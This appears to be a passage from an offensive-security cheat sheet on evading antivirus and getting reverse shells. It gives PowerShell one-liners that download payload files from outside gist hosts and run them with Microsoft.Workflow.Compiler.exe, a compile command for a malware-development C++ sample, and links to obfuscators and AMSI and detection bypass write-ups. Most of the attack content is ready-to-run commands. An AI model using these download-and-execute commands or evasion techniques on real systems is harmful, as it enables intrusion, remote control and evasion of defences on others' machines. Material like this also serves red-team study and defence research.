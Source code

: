 ### C# using compiler

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```

[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

Automatic download and execution:

```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```


{{#ref}}
https://gist.github.com/BankSecurity/469ac5f9944ed1b8c39129dc0037bb8f
{{#endref}}

C# obfuscators list: [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++

```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

- [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)
- [https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/](https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/)
- [https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)
- [https://github.com/l0ss/Grouper2](ps://github.com/l0ss/Group)
- [http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html](http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html)
- [http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/](http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/)
